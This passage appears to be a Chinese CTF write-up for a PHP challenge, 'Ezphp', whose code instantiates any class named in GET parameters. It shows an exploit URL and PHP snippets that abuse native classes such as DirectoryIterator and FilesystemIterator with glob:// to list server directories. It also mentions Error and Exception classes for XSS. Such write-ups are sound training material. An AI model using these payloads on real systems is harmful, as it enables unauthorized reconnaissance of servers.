 这里不是很懂



### Ezphp 

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
$g = $_GET['g'];
$t = $_GET['t'];
echo new $g($t); 
```

这个地方直接要我们创建对象，但是又没有自定义类，所以我们应该寻找**php原生类**

最初我想到的是 `Error`、`Exception`类，但是没什么用，可以用来执行xss漏洞

然后我找到了如下几个类：

#### **遍历文件目录的类**

- DirectoryIterator 
- FilesystemIterator 
- GlobIterator 

##### 1、DirectoryIterator：

会创建一个指定目录的迭代器。当执行到echo函数时，会触发DirectoryIterator类中的 `__toString()` 方法，输出指定目录里面经过排序之后的第一个文件名

我们可以配合`glob协议` 模式匹配来寻找我们想要的文件路径：

```
http://43.138.65.13:2023/?g=DirectoryIterator&t=glob:///var/www/h*
//回显：html
```

我们想要得到路径下所有的文件、目录，需要遍历输出：

```php
$a = new DirectoryIterator("glob:///*");
foreach($a as $f){
	echo($f->__toString().'<br>');
}
```



##### 2、FilesystemIterator:

和上面差不多：

```php
$a = new FilesystemIterator("glob:///*");
foreach($a as $f){
	echo($f->__toString().'<br>');
}
```
